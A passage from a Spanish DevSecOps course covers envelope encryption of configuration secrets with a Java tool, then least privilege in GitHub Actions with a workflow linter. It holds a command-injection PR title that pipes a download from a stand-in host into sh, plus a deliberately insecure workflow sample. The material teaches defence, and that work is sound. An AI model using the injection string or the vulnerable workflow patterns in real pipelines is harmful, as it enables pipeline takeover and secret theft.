acceso de lectura al repositorio, a una copia vieja o a un respaldo las tiene. El equipo quiere guardar la
configuración en Git para revisar los cambios, pero sin que los valores se puedan leer. Y cuando una persona deja la
empresa, hay que cambiar la clave con la que se cifró todo sin tocar cada valor. ¿Cómo se versiona un secreto sin
exponerlo?

Este tema usa **cifrado simétrico**, **AES-GCM**, **nonce** y la diferencia entre **secreto** y **configuración**
(Tema 3 del Módulo 0 de este curso) y el **límite de confianza** (Tema 1 del Módulo 0).

#### Glosario del tema

**gestión de secretos**
- **Definición técnica:** conjunto de prácticas y herramientas para crear, almacenar, distribuir, rotar, auditar y revocar credenciales (claves, contraseñas, tokens) sin que queden expuestas en código, registros o repositorios.
- **En palabras sencillas:** quién guarda las llaves, quién puede pedirlas y cómo se cambian.
- **Dónde se rompe la comparación:** una llave física se nota si falta; una copia de un secreto no deja rastro.
- **Ejemplo:** `secretos.enc.properties` se puede guardar en Git; `maestra.key` no.
- **Error típico:** «borrar» un secreto del repositorio con un commit nuevo: sigue en el historial y hay que rotarlo.

**cifrado de sobre (*envelope encryption*)**
- **Definición técnica:** esquema en el que los datos se cifran con una clave de datos y esa clave de datos se cifra (envuelve) con una clave maestra; se guardan juntos los datos cifrados y la clave de datos envuelta.
- **En palabras sencillas:** una caja fuerte con su llave dentro de un sobre sellado, y solo el gerente abre sobres.
- **Dónde se rompe la comparación:** el gerente nunca toca la caja: solo abre el sobre; por eso la clave maestra puede vivir en un servicio que nunca ve los datos.
- **Ejemplo:** cada valor se cifra con la DEK; la DEK envuelta queda en la línea `_clave_datos`.
- **Error típico:** cifrar todo directamente con la clave maestra: rotarla obliga a descifrar y volver a cifrar todos los datos.

**clave de datos (DEK, *data encryption key*)**
- **Definición técnica:** clave simétrica que cifra los datos; se genera por archivo o por registro y nunca se guarda sin envolver.
- **En palabras sencillas:** la llave de esta caja fuerte en particular.
- **Dónde se rompe la comparación:** se crea nueva cada vez que se cifra un archivo; dos archivos nunca comparten la misma.
- **Ejemplo:** `nuevaClave()` en la línea 81 genera una AES de 256 bits para cada orden `cifrar`.
- **Error típico:** reutilizar una DEK fija para todo: si se filtra, se descifra todo.

**clave maestra (KEK, *key encryption key*)**
- **Definición técnica:** clave que solo cifra y descifra otras claves; vive en un almacén protegido (KMS, HSM, Vault) y no sale de él.
- **En palabras sencillas:** la llave del gerente, que solo abre sobres.
- **Dónde se rompe la comparación:** en este laboratorio la clave maestra es un archivo; en producción, el programa le pide al KMS que abra el sobre y nunca ve la clave.
- **Ejemplo:** `maestra.key`, 256 bits en Base64.
- **Error típico:** guardar la clave maestra al lado del archivo cifrado en el mismo repositorio.

**envoltura de clave (*key wrapping*)**
- **Definición técnica:** cifrado de una clave con otra mediante un algoritmo diseñado para claves, como AES Key Wrap (RFC 3394), que además verifica la integridad al desenvolver.
- **En palabras sencillas:** sellar el sobre de forma que si alguien lo abre con otra llave, se nota.
- **Dónde se rompe la comparación:** un sobre mal sellado se puede volver a pegar; AES Key Wrap detecta cualquier cambio o clave incorrecta.
- **Ejemplo:** `Cipher.getInstance("AESWrap")`; con otra clave maestra falla con `Integrity check failed`.
- **Error típico:** envolver con AES en modo ECB: no detecta una clave maestra equivocada y devuelve basura como si fuera una clave.

**datos autenticados adicionales (AAD)**
- **Definición técnica:** datos que AES-GCM incluye en el cálculo de la etiqueta de autenticación sin cifrarlos; descifrar con un AAD distinto falla.
- **En palabras sencillas:** el nombre escrito en la etiqueta del frasco: el contenido solo vale con esa etiqueta.
- **Dónde se rompe la comparación:** el nombre sigue legible, solo queda «pegado» al contenido.
- **Ejemplo:** el nombre de la propiedad (`db.clave`) es el AAD de su valor (líneas 31 y 40).
- **Error típico:** no usar AAD: alguien puede mover la clave de pagos al campo de la base y el programa la descifra sin quejarse.

**rotación de claves**
- **Definición técnica:** reemplazo periódico o por incidente de una clave por otra nueva, dejando de usar la anterior.
- **En palabras sencillas:** cambiar la cerradura.
- **Dónde se rompe la comparación:** con cifrado de sobre, cambiar la cerradura del gerente es volver a sellar los sobres, no rehacer las cajas.
- **Ejemplo:** `rotar` cambia solo la línea `_clave_datos`; el `diff` lo confirma.
- **Error típico:** rotar la clave maestra y olvidar volver a envolver un archivo: queda ilegible para siempre.

**KMS (servicio de gestión de claves)**
- **Definición técnica:** servicio que guarda claves maestras en hardware o software protegido, ejecuta las operaciones de envolver y desenvolver por API y registra quién las pidió.
- **En palabras sencillas:** el gerente con su bitácora.
- **Dónde se rompe la comparación:** el gerente puede estar ocupado; el KMS tiene límites de peticiones y latencia, y por eso se envuelve una DEK y no cada dato.
- **Ejemplo:** AWS KMS, Google Cloud KMS, Azure Key Vault o el motor Transit de Vault hacen lo que `envolver` y `desenvolver` hacen aquí.
- **Error típico:** dar a la aplicación permiso para leer la clave maestra en lugar de permiso solo para desenvolver.

#### ► CÓMO FUNCIONA
Para cifrar, el programa genera una DEK nueva, cifra cada valor con AES-GCM usando el nombre de la propiedad como AAD,
envuelve la DEK con la clave maestra y escribe todo en un archivo que conserva los nombres legibles. Para descifrar,
desenvuelve la DEK con la clave maestra y descifra cada valor con su nombre. Para rotar, desenvuelve con la maestra
vieja y vuelve a envolver con la nueva: los valores no cambian.



#### Problema resuelto 2.1
Cifra un archivo de configuración con cifrado de sobre y descífralo.

**Razonamiento:**
1. Una sola herramienta con cuatro órdenes: `generar-clave`, `cifrar`, `descifrar` y `rotar`.
2. Cada valor lleva su IV de 12 bytes aleatorio dentro del texto `ENC[iv:cifrado]`; con GCM, repetir IV con la misma
   clave es grave, por eso se genera uno nuevo por valor.
3. Los nombres quedan en claro: así un `diff` en una revisión muestra **qué** secreto cambió sin mostrar el valor.

```text
# secretos.properties (nunca se guarda en el repositorio)
db.usuario=inventario_app
db.clave=Bodega-2026-xQ7!
pagos.api_key=pk_lab_51Hc9QeKs0
```

```java
// Sobre.java — cifrado de sobre: cada valor con una clave de datos; la clave de datos, envuelta con la maestra
import java.security.GeneralSecurityException;
import java.security.SecureRandom;
import java.util.Base64;
import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.SecretKey;
import javax.crypto.spec.GCMParameterSpec;
import javax.crypto.spec.SecretKeySpec;

static final SecureRandom AZAR = new SecureRandom();
static final Base64.Encoder B64 = Base64.getEncoder();
static final Base64.Decoder D64 = Base64.getDecoder();

SecretKey nuevaClave() throws GeneralSecurityException {
    KeyGenerator generador = KeyGenerator.getInstance("AES");
    generador.init(256);
    return generador.generateKey();
}

SecretKey leerClave(String archivo) throws IOException {
    return new SecretKeySpec(D64.decode(Files.readString(Path.of(archivo)).trim()), "AES");
}

/** AES-GCM: IV aleatorio de 12 bytes; el nombre de la propiedad va como dato autenticado (AAD). */
String cifrarValor(SecretKey dek, String nombre, String valor) throws GeneralSecurityException {
    byte[] iv = new byte[12];
    AZAR.nextBytes(iv);
    Cipher c = Cipher.getInstance("AES/GCM/NoPadding");
    c.init(Cipher.ENCRYPT_MODE, dek, new GCMParameterSpec(128, iv));
    c.updateAAD(nombre.getBytes(StandardCharsets.UTF_8));
    byte[] cifrado = c.doFinal(valor.getBytes(StandardCharsets.UTF_8));
    return "ENC[" + B64.encodeToString(iv) + ":" + B64.encodeToString(cifrado) + "]";
}

String descifrarValor(SecretKey dek, String nombre, String enc) throws GeneralSecurityException {
    String[] partes = enc.substring(4, enc.length() - 1).split(":");
    Cipher c = Cipher.getInstance("AES/GCM/NoPadding");
    c.init(Cipher.DECRYPT_MODE, dek, new GCMParameterSpec(128, D64.decode(partes[0])));
    c.updateAAD(nombre.getBytes(StandardCharsets.UTF_8));
    return new String(c.doFinal(D64.decode(partes[1])), StandardCharsets.UTF_8);
}

String envolver(SecretKey kek, SecretKey dek) throws GeneralSecurityException {
    Cipher c = Cipher.getInstance("AESWrap");
    c.init(Cipher.WRAP_MODE, kek);
    return B64.encodeToString(c.wrap(dek));
}

SecretKey desenvolver(SecretKey kek, String envuelta) throws GeneralSecurityException {
    Cipher c = Cipher.getInstance("AESWrap");
    c.init(Cipher.UNWRAP_MODE, kek);
    return (SecretKey) c.unwrap(D64.decode(envuelta), "AES", Cipher.SECRET_KEY);
}

/** Lee un .properties conservando el orden de las líneas. */
LinkedHashMap<String, String> leer(String archivo) throws IOException {
    var mapa = new LinkedHashMap<String, String>();
    for (String l : Files.readAllLines(Path.of(archivo))) {
        if (l.isBlank() || l.startsWith("#")) continue;
        int igual = l.indexOf('=');
        mapa.put(l.substring(0, igual), l.substring(igual + 1));
    }
    return mapa;
}

void escribir(String archivo, Map<String, String> mapa) throws IOException {
    List<String> lineas = new ArrayList<>();
    mapa.forEach((k, v) -> lineas.add(k + "=" + v));
    Files.write(Path.of(archivo), lineas);
}

void main(String[] args) throws Exception {
    switch (args[0]) {
        case "generar-clave" -> {                         // clave maestra: en producción vive en un KMS o en Vault
            Files.writeString(Path.of(args[1]), B64.encodeToString(nuevaClave().getEncoded()) + "\n");
            IO.println("clave maestra de 256 bits guardada en " + args[1]);
        }
        case "cifrar" -> {                                // cifrar <maestra> <entrada> <salida>
            SecretKey kek = leerClave(args[1]);
            SecretKey dek = nuevaClave();                  // clave de datos nueva para este archivo
            var salida = new LinkedHashMap<String, String>();
            for (var e : leer(args[2]).entrySet()) salida.put(e.getKey(), cifrarValor(dek, e.getKey(), e.getValue()));
            salida.put("_clave_datos", envolver(kek, dek));
            escribir(args[3], salida);
            IO.println("cifrados " + (salida.size() - 1) + " valores en " + args[3]);
        }
        case "descifrar" -> {                             // descifrar <maestra> <archivo cifrado>
            var mapa = leer(args[2]);
            SecretKey dek = desenvolver(leerClave(args[1]), mapa.remove("_clave_datos"));
            for (var e : mapa.entrySet()) IO.println(e.getKey() + "=" + descifrarValor(dek, e.getKey(), e.getValue()));
        }
        case "rotar" -> {                                 // rotar <maestra vieja> <maestra nueva> <archivo>
            var mapa = leer(args[3]);
            SecretKey dek = desenvolver(leerClave(args[1]), mapa.get("_clave_datos"));
            mapa.put("_clave_datos", envolver(leerClave(args[2]), dek));   // solo cambia la envoltura
            escribir(args[3], mapa);
            IO.println("clave de datos envuelta otra vez; " + (mapa.size() - 1) + " valores sin tocar");
        }
        default -> throw new IllegalArgumentException("orden desconocida: " + args[0]);
    }
}
```

```text
$ java Sobre.java generar-clave maestra.key
clave maestra de 256 bits guardada en maestra.key
$ java Sobre.java cifrar maestra.key secretos.properties secretos.enc.properties
cifrados 3 valores en secretos.enc.properties
$ cat secretos.enc.properties
db.usuario=ENC[Vrrm8jjfvwLgf4vw:MkfXhRCqkIwTZKTbulP+MxCH0CJtS1A+ZCbxFqbJ]
db.clave=ENC[h9ufXXCthlzZ0OE9:I+34SEgv1f1fEhqTd2/YJeWJCznJscCl+IpA4ld7cug=]
pagos.api_key=ENC[0Z8Iuj+hQsvr91rU:cMXIMXVxSqSTiMQp4FYGlcH4gQR69lyLEXV4wW+52q+z]
_clave_datos=il7vG07JDeGMpjXUJRVsYTjvH2yXhj/wgMh+JC9CIyS8fp6RDq7l5Q==
$ java Sobre.java descifrar maestra.key secretos.enc.properties
db.usuario=inventario_app
db.clave=Bodega-2026-xQ7!
pagos.api_key=pk_lab_51Hc9QeKs0
```

**Explicación por partes.**
- Líneas 26–34: `cifrarValor` arma el texto con el IV y el cifrado en Base64. El cifrado es 16 bytes más largo que el
  valor: es la etiqueta de autenticación de GCM.
- Líneas 44–48: `envolver` usa AES Key Wrap; la DEK de 32 bytes queda en 40.
- Línea 81: cada `cifrar` crea una DEK nueva; si cifras el mismo archivo dos veces, todo el contenido cambia.
- La salida muestra lo que se guarda en Git: nombres legibles, valores ilegibles, la DEK envuelta. Tus textos
  cifrados serán distintos, porque las claves y los IV son aleatorios.

#### Problema resuelto 2.2
Ataca el archivo cifrado de dos formas: intercambia los valores de `db.clave` y `pagos.api_key`, y descifra con otra
clave maestra. Después, rota la clave maestra.

**Razonamiento:**
1. Intercambiar líneas no requiere romper el cifrado: si el programa lo acepta, la aplicación usaría la clave de pagos
   como contraseña de la base sin que nadie lo note.
2. Con otra clave maestra, desenvolver debe fallar en vez de producir una DEK falsa.
3. Para rotar, basta volver a envolver la DEK; se comprueba con `diff`.

```text
$ java Sobre.java descifrar maestra.key cambiado.enc.properties
db.usuario=inventario_app
Exception in thread "main" javax.crypto.AEADBadTagException: Tag mismatch
	at java.base/com.sun.crypto.provider.GaloisCounterMode$GCMDecrypt.doFinal(GaloisCounterMode.java:1505)
```

```text
$ java Sobre.java generar-clave nueva.key
clave maestra de 256 bits guardada en nueva.key
$ java Sobre.java descifrar nueva.key secretos.enc.properties
Exception in thread "main" java.security.InvalidKeyException: javax.crypto.IllegalBlockSizeException: Integrity check failed
	at java.base/com.sun.crypto.provider.KeyWrapCipher.engineUnwrap(KeyWrapCipher.java:777)
```

```text
$ java Sobre.java rotar maestra.key nueva.key secretos.enc.properties
clave de datos envuelta otra vez; 3 valores sin tocar
$ diff antes.enc.properties secretos.enc.properties
4c4
< _clave_datos=il7vG07JDeGMpjXUJRVsYTjvH2yXhj/wgMh+JC9CIyS8fp6RDq7l5Q==
---
> _clave_datos=kQMahpoSU0i6UoeRnp0HyTzzye4qMSLNjBrRRblQ7x/p+OJeEjWkIA==
$ java Sobre.java descifrar nueva.key secretos.enc.properties
db.usuario=inventario_app
db.clave=Bodega-2026-xQ7!
pagos.api_key=pk_lab_51Hc9QeKs0
```

**Explicación por partes.**
- El intercambio se detecta: `db.usuario` se descifra bien, y `db.clave` falla con `AEADBadTagException: Tag mismatch`
  porque su valor fue cifrado con el AAD `pagos.api_key`. El programa se detiene en vez de usar un secreto equivocado.
- Con otra clave maestra, `AESWrap` falla al desenvolver con `Integrity check failed`: no hay forma de obtener una DEK
  falsa y seguir.
- La rotación cambia una sola línea, `_clave_datos`. Los tres valores son idénticos byte a byte y se descifran con la
  maestra nueva. Rotar es barato, así que se puede hacer seguido.

> **Error común.** Guardar `maestra.key` en el repositorio «solo para desarrollo». Una clave de desarrollo que se
> filtra deja de ser solo de desarrollo cuando alguien la reutiliza. Agrega `*.key` a `.gitignore` y usa una maestra
> distinta por ambiente.

> **Error común.** Pasar el secreto descifrado como argumento de la línea de órdenes (`java App --clave=...`). Los
> argumentos se ven en `ps` y en el historial de la terminal. Usa variables de entorno o archivos con permisos
> restringidos que la aplicación lee al arrancar.

> **Buena práctica.** Si un secreto llegó alguna vez en claro a un commit, considéralo comprometido: rota el secreto en
> el sistema que lo emite (la base, la pasarela), no solo en el archivo.

> **Prevenir errores.** Agrega al pipeline una búsqueda de secretos en cada commit (como el escaneo de historial del
> Tema 3 del Módulo 0) para detener los que se escapan antes de que lleguen al repositorio remoto.

#### Del laboratorio a producción
SOPS cifra archivos YAML, JSON, `.env` y `.properties` exactamente así: valores cifrados con AES-GCM, nombres en
claro y la clave de datos envuelta por una o varias claves maestras de AWS KMS, Google Cloud KMS, Azure Key Vault,
`age` o PGP. Vault guarda los secretos en un servidor, entrega a cada aplicación solo los que su política permite y
puede generar credenciales de base de datos que expiran solas. En Kubernetes, los secretos se montan como archivos o
variables de entorno y conviene cifrarlos en reposo con un KMS.

#### Checkpoint 2.1
Si un atacante copia `secretos.enc.properties` completo, ¿qué necesita además para leer los valores?

Respuesta: la clave maestra, o permiso para que el KMS desenvuelva `_clave_datos`. Sin eso, el archivo no le sirve:
ni la DEK ni los valores se pueden recuperar.

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Paso 1 · Prepara la carpeta
Crea `mkdir -p ~/labs/seguridad/devsecops/secretos && cd ~/labs/seguridad/devsecops/secretos`, el archivo
`secretos.properties` y `Sobre.java`. Crea `.gitignore` con `*.key` y `secretos.properties`.

#### Paso 2 · Cifra y descifra
Genera `maestra.key`, cifra y descifra. Comprueba que los tres valores vuelven idénticos.

#### Paso 3 · Intercambia valores
Copia el archivo cifrado, intercambia los valores de `db.clave` y `pagos.api_key` en un editor y descifra. Lee el
`AEADBadTagException`.

#### Paso 4 · Prueba otra maestra
Genera `nueva.key` y trata de descifrar con ella. Lee el `Integrity check failed`.

#### Paso 5 · Rota la maestra
Copia el archivo cifrado como `antes.enc.properties`, rota a `nueva.key` y comprueba con `diff` que cambió una sola
línea.

#### Resumen
- La **gestión de secretos** decide dónde viven las credenciales, quién las lee y cómo se cambian.
- El **cifrado de sobre** cifra los datos con una **DEK** y envuelve la DEK con una **KEK**.
- La **envoltura de clave** con AES Key Wrap detecta una maestra equivocada.
- Con **AAD**, cada valor queda atado a su nombre: intercambiarlos se detecta.
- La **rotación** de la maestra solo vuelve a envolver la DEK.
- Un **KMS** guarda la maestra y hace las operaciones sin entregarla.

#### Ejercicio verificable 1
Básico. Ejecuta dos veces `cifrar` sobre el mismo `secretos.properties` a dos archivos distintos y compáralos con `diff`.
¿Cuántas líneas cambian, y por qué?

Respuesta esperada: las cuatro. Cada `cifrar` genera una DEK nueva y un IV nuevo por valor: el mismo secreto produce
textos cifrados distintos. Por eso un observador no puede saber si dos ambientes usan la misma contraseña.

#### Ejercicio verificable 2
Intermedio. En el archivo cifrado, cambia una sola letra dentro del texto cifrado de `db.usuario` y descifra. ¿Qué pasa?

Respuesta esperada: `AEADBadTagException: Tag mismatch` en `db.usuario`: GCM detecta cualquier cambio en el texto
cifrado, en el IV o en el AAD. El programa no muestra un usuario alterado.

#### Ejercicio verificable 3
Reto. Después de rotar a `nueva.key`, ¿puedes descifrar con `maestra.key`? ¿Qué debes hacer con la maestra vieja?

Respuesta esperada: no: `Integrity check failed`, porque la DEK ya está envuelta con la nueva. La maestra vieja se
conserva deshabilitada mientras quede algún archivo o respaldo envuelto con ella, y se destruye cuando ya no queda
ninguno. Los KMS gestionan esto con versiones de clave.

#### En el trabajo
SOPS con un KMS de la nube es la forma más común de guardar configuración cifrada en repositorios de infraestructura
(GitOps); Vault, la más común para entregar secretos a aplicaciones en ejecución. En una auditoría se pregunta: «¿qué
secretos hay en el repositorio?», «¿quién puede desenvolver?» y «¿cuándo se rotó cada clave por última vez?».

</details>

### Tema 3: Menor privilegio en CI/CD: permisos del token, acciones fijadas y entradas no confiables · Avanzado · 50 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### Objetivos
Al terminar este tema podrás:
- explicar qué puede hacer el token de un pipeline y por qué sus permisos se declaran explícitamente;
- fijar las acciones de terceros a un commit y explicar por qué una etiqueta no basta;
- reconocer el riesgo de `pull_request_target` combinado con el código del pull request;
- evitar la inyección de comandos con datos controlados por quien abre el pull request;
- revisar un workflow automáticamente con un programa que falla con código 1.

**Conceptos clave:** principio de menor privilegio, token del pipeline, permisos del workflow, acción fijada a un commit, `pull_request_target`, inyección en scripts del pipeline, cadena de suministro del pipeline

#### El problema
El pipeline de revisión de pull requests usa `permissions: write-all` «para que no falle», acciones por etiqueta
(`@v4`, `@main`) y saluda imprimiendo el título del pull request. Una persona externa abre un pull request cuyo título
es `"; curl https://atacante.example/x | sh; echo "`. ¿Qué puede hacer ese pull request con el token del repositorio?

Este tema usa la **integración continua** (Fundamentos, Módulo 4, Tema 4), el **límite de confianza** (Módulo 0, Tema
1, de este curso) y el **hash** como identificador de contenido (Módulo 0, Tema 2).

#### Glosario del tema

**principio de menor privilegio**
- **Definición técnica:** cada componente recibe solo los permisos que necesita para su tarea y durante el tiempo que la necesita.
- **En palabras sencillas:** la llave del depósito para quien trabaja en el depósito, no la llave maestra del edificio.
- **Dónde se rompe la comparación:** en software, «lo que necesita» cambia con cada paso del pipeline; los permisos se declaran por trabajo.
- **Ejemplo:** `permissions: contents: read` en `seguro.yml`: el trabajo puede leer el código y nada más.
- **Error típico:** dar todos los permisos porque «algún paso podría necesitarlos».

**token del pipeline**
- **Definición técnica:** credencial temporal que la plataforma de CI entrega a cada ejecución para actuar sobre el repositorio (leer, publicar paquetes, comentar, crear ramas).
- **En palabras sencillas:** el gafete del visitante, que vence al terminar la visita.
- **Dónde se rompe la comparación:** durante la visita, el gafete abre lo que diga; si alguien se lo roba, abre lo mismo.
- **Ejemplo:** en GitHub Actions es `GITHUB_TOKEN`; sus permisos salen de `permissions:`.
- **Error típico:** confiar en que es temporal: en minutos alcanza para publicar una versión maliciosa.

**permisos del workflow**
- **Definición técnica:** declaración `permissions:` en un workflow o trabajo que fija los alcances del token; sin ella se aplican los permisos por defecto del repositorio o de la organización.
- **En palabras sencillas:** lo que dice el gafete que puedes abrir.
- **Dónde se rompe la comparación:** si no lo escribes, alguien más decidió por ti, y esa configuración puede cambiar.
- **Ejemplo:** la regla R1 marca un workflow sin `permissions:`; R2, uno con `write-all`.
- **Error típico:** declarar permisos solo en el trabajo que los necesita y dejar los demás sin declaración.

**acción fijada a un commit**
- **Definición técnica:** referencia a una acción reutilizable por el SHA completo de un commit (40 caracteres hexadecimales) en lugar de una etiqueta o rama, que su dueño puede mover.
- **En palabras sencillas:** pedir el producto por número de serie, no por «el modelo de este año».
- **Dónde se rompe la comparación:** el número de serie no te avisa de las correcciones nuevas; hay que actualizarlo a propósito, con una herramienta como Dependabot.
- **Ejemplo:** `actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11 # v4.1.1`.
- **Error típico:** `@main`: cualquier commit nuevo en la rama de la acción corre en tu pipeline con tu token.

**`pull_request_target`**
- **Definición técnica:** evento de GitHub Actions que ejecuta el workflow de la rama base con acceso a los secretos y a un token con permisos de escritura, aun cuando el pull request viene de un fork.
- **En palabras sencillas:** atender al visitante en la oficina del gerente.
- **Dónde se rompe la comparación:** es seguro si solo se leen metadatos del pull request; deja de serlo en cuanto se descarga y ejecuta su código.
- **Ejemplo:** `inseguro.yml` hace checkout de `github.event.pull_request.head.sha` y luego ejecuta `./gradlew test`: el código del atacante corre con los secretos.
- **Error típico:** usarlo «porque `pull_request` no tiene acceso a los secretos»: esa limitación es la protección.

**inyección en scripts del pipeline**
- **Definición técnica:** ejecución de comandos arbitrarios cuando una expresión `${{ ... }}` con datos controlados por un tercero (título, cuerpo, nombre de rama) se interpola dentro del texto de un `run:` antes de que el shell lo interprete.
- **En palabras sencillas:** pegar en un formulario un texto que el sistema lee como una orden.
- **Dónde se rompe la comparación:** la interpolación ocurre antes del shell; ninguna comilla que pongas en el YAML te protege.
- **Ejemplo:** `run: echo "Revisando ${{ github.event.pull_request.title }}"` (regla R5).
- **Error típico:** «escapar» con comillas; la forma segura es pasar el dato por `env:` y usar `$TITULO` dentro del script.

**cadena de suministro del pipeline**
- **Definición técnica:** todo lo que se ejecuta durante la construcción sin ser tu código: acciones, imágenes, plugins, scripts descargados y herramientas.
- **En palabras sencillas:** los proveedores que entran a tu fábrica.
- **Dónde se rompe la comparación:** un proveedor de la fábrica firma un contrato; una acción de terceros solo trae su código.
- **Ejemplo:** `gradle/actions/setup-gradle@main` es código de otra organización corriendo con tu token.
- **Error típico:** revisar las dependencias de la aplicación (Tema 1) y no las del pipeline.

#### ► CÓMO FUNCIONA
El revisor lee el workflow línea por línea y aplica cinco reglas: R1, no hay `permissions:` arriba; R2, hay
`write-all`; R3, una acción no está fijada a un SHA de 40 caracteres; R4, `pull_request_target` junto con checkout de
la cabeza del pull request; R5, un `run:` que interpola un dato del pull request. Las de severidad media avisan; las
demás hacen fallar la revisión con código 1.



#### Problema resuelto 3.1
Escribe un workflow inseguro y uno corregido, y un revisor que los evalúe.

**Razonamiento:**
1. El revisor trabaja sobre texto con expresiones regulares: alcanza para estas reglas porque todas miran líneas
   concretas. Una herramienta profesional parsea el YAML completo.
2. R4 necesita dos condiciones a la vez: el evento `pull_request_target` en el archivo y una referencia a la cabeza del
   pull request.
3. R5 reconoce las expresiones con datos que controla quien abre el pull request: título, cuerpo y nombre de rama.

```yaml
# .github/workflows/inseguro.yml
name: Revisar PR
on: pull_request_target
permissions: write-all
jobs:
  probar:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - uses: gradle/actions/setup-gradle@main
      - name: Saludar
        run: echo "Revisando ${{ github.event.pull_request.title }}"
      - name: Probar
        run: ./gradlew test
```

```yaml
# .github/workflows/seguro.yml
name: Revisar PR
on: pull_request
permissions:
  contents: read
jobs:
  probar:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11 # v4.1.1
      - name: Saludar
        env:
          TITULO: ${{ github.event.pull_request.title }}
        run: echo "Revisando $TITULO"
      - name: Probar
        run: ./gradlew test
```

```java
// RevisarWorkflow.java — revisa un workflow de GitHub Actions contra cinco reglas de menor privilegio
import java.util.regex.Pattern;

static final Pattern USES = Pattern.compile("^\\s*-?\\s*uses:\\s*([^@\\s]+)@(\\S+)");
static final Pattern SHA = Pattern.compile("[0-9a-f]{40}");
static final Pattern DATO_ATACANTE = Pattern.compile(
        "\\$\\{\\{\\s*github\\.(event\\.pull_request\\.(title|body|head\\.ref)|head_ref|event\\.issue\\.(title|body))");

record Hallazgo(int linea, String severidad, String regla, String detalle) {
}

List<Hallazgo> revisar(List<String> lineas) {
    List<Hallazgo> h = new ArrayList<>();
    boolean permisosArriba = lineas.stream().anyMatch(l -> l.startsWith("permissions:"));
    boolean prTarget = lineas.stream().anyMatch(l -> l.matches("^on:.*pull_request_target.*") || l.trim().equals("pull_request_target:"));
    if (!permisosArriba) {
        h.add(new Hallazgo(1, "ALTA", "R1", "sin 'permissions:': el token recibe los permisos por defecto del repositorio"));
    }
    for (int i = 0; i < lineas.size(); i++) {
        String l = lineas.get(i);
        int n = i + 1;
        if (l.matches("^\\s*permissions:\\s*write-all\\s*$")) {
            h.add(new Hallazgo(n, "ALTA", "R2", "write-all da escritura sobre todo el repositorio al token"));
        }
        var u = USES.matcher(l);
        if (u.find() && !u.group(1).startsWith("./") && !SHA.matcher(u.group(2)).matches()) {
            h.add(new Hallazgo(n, "MEDIA", "R3", u.group(1) + "@" + u.group(2) + " no está fijada a un commit (SHA de 40 caracteres)"));
        }
        if (prTarget && l.contains("github.event.pull_request.head")) {
            h.add(new Hallazgo(n, "CRÍTICA", "R4", "pull_request_target ejecuta código del PR con los secretos y el token del repositorio"));
        }
        if (l.trim().startsWith("run:") && DATO_ATACANTE.matcher(l).find()) {
            h.add(new Hallazgo(n, "ALTA", "R5", "texto controlado por quien abre el PR se interpola dentro de un script"));
        }
    }
    return h;
}

void main(String[] args) throws IOException {
    int graves = 0;
    for (String archivo : args) {
        var hallazgos = revisar(Files.readAllLines(Path.of(archivo)));
        IO.println(archivo + ": " + hallazgos.size() + " hallazgo(s)");
        for (Hallazgo x : hallazgos) {
            IO.println(String.format("  línea %2d  %-8s %s  %s", x.linea(), x.severidad(), x.regla(), x.detalle()));
            if (!x.severidad().equals("MEDIA")) graves++;
        }
    }
    System.exit(graves == 0 ? 0 : 1);
}
```

```text
$ java RevisarWorkflow.java .github/workflows/inseguro.yml; echo "salida: $?"
.github/workflows/inseguro.yml: 5 hallazgo(s)
  línea  3  ALTA     R2  write-all da escritura sobre todo el repositorio al token
  línea  8  MEDIA    R3  actions/checkout@v4 no está fijada a un commit (SHA de 40 caracteres)
  línea 10  CRÍTICA  R4  pull_request_target ejecuta código del PR con los secretos y el token del repositorio
  línea 11  MEDIA    R3  gradle/actions/setup-gradle@main no está fijada a un commit (SHA de 40 caracteres)
  línea 13  ALTA     R5  texto controlado por quien abre el PR se interpola dentro de un script
salida: 1
$ java RevisarWorkflow.java .github/workflows/seguro.yml; echo "salida: $?"
.github/workflows/seguro.yml: 0 hallazgo(s)
salida: 0
```

**Explicación por partes.**
- Línea 14: R1 busca `permissions:` al inicio de línea, es decir, a nivel del workflow.
- Línea 26: R3 acepta solo un SHA de 40 caracteres; las acciones locales (`./`) se excluyen.
- Línea 29: R4 se activa en la línea 10 de `inseguro.yml`, la que descarga el código del pull request.
- Línea 32: R5 se activa en la línea 13: el título entra en el texto del script.
- En `seguro.yml`, el título llega por `env:` como `TITULO` y el shell lo trata como dato; el evento es
  `pull_request`, sin secretos para forks; el token solo lee; y la acción está fijada.
- El SHA de `seguro.yml` corresponde a la etiqueta indicada en el comentario. El revisor solo comprueba el formato:
  antes de copiar un SHA, verifícalo en la página de la acción.

> **Error común.** Fijar la acción a un SHA y no actualizarla nunca. Las correcciones de seguridad de la acción no te
> llegan. Usa Dependabot o Renovate para que propongan el SHA nuevo con su etiqueta.

> **Error común.** Imprimir secretos para depurar (`echo ${{ secrets.CLAVE }}`). GitHub enmascara el valor exacto en
> los registros, pero no sus transformaciones (Base64, un fragmento): el secreto queda expuesto.

> **Buena práctica.** Declara `permissions: {}` (ninguno) arriba y concede en cada trabajo solo lo que necesita, por
> ejemplo `packages: write` en el que publica.

> **Prevenir errores.** Protege la rama principal y los archivos de `.github/workflows` con revisión obligatoria por
> dueños de código: un cambio al pipeline es un cambio a quién tiene las llaves.

#### Del laboratorio a producción
Herramientas como `zizmor` y `actionlint` revisan workflows con reglas como estas y muchas más; OpenSSF Scorecard
puntúa el repositorio completo. El mismo principio vale para el despliegue en Kubernetes: la cuenta de servicio del
pipeline no debe tener `cluster-admin`, sino un `Role` en un solo namespace con los verbos `get`, `update` y `patch`
sobre el `Deployment` que despliega (`resourceNames: ["inventario"]`). `kubectl auth can-i delete namespaces
--as=system:serviceaccount:ci:pipeline` debe responder `no`.

#### Checkpoint 3.1
Si en `seguro.yml` cambias `on: pull_request` por `on: pull_request_target`, ¿activa R4? ¿Es seguro?

Respuesta: no activa R4, porque el workflow no descarga la cabeza del pull request: el checkout sin `ref` toma la rama
base. Es seguro mientras ningún paso ejecute código del pull request; en cuanto alguien agregue
`ref: ${{ github.event.pull_request.head.sha }}`, R4 lo marca.

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Paso 1 · Prepara la carpeta
